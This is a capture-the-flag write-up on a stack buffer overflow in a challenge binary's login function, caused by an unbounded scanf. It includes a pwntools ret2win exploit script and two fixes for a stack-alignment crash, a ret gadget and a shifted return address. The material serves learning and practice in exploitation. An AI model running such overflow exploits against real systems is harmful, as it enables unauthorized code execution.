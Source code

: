 Here, we identify a vulnerability in the `login` function since our input length is unrestricted in the `scanf("%s", attempt)` function.

Using a similar procedure as that in baby goods, I find that the offset is `72`, and the address of `view_message` is at `0x0040138e`. I tried the following exploit code:

```python
from pwn import *

# io = remote('challs.nusgreyhats.org',30211)
io = process('./chall')
view_message = p64(0x0040138e)

for i in range(4):
    info(io.recvuntil(b'PIN: '))
    io.sendline(b'a')

info(io.recvuntil(b'PIN: '))
pause()
payload = 72 * b'a' + view_message
io.sendline(payload)
io.interactive()
data = io.recvuntil(b'}')
print(data)
io.close()
```

However, this repeatedly got segmentation faults and I couldn't figure out why. After the CTF, I realised that it was due to the `MOVAPS` instruction checking that the stack was 16 byte aligned. This alignment had been compromised by my ROP Chain.

There are 2 possible solutions to this. The first is by adding an additional `ret` gadget before the address of `view_message`. We can find the address of such a gadget by doing `ROPgadget --binary ./chall --only ret`:

<img src = "/assets/greyctf24/ropgadget.png" alt="ROPgadget usage" style="width: 500px; height: 50px">

So we just add `0x0040101a` before `0x0040138e` in the ROP chain.

Alternatively, we can also return to further inside the `view_message` function, after the `PUSH` instruction at `0x00401392`. This prevents the stack from becoming misaligned. For example we could return to `0x00401393`.
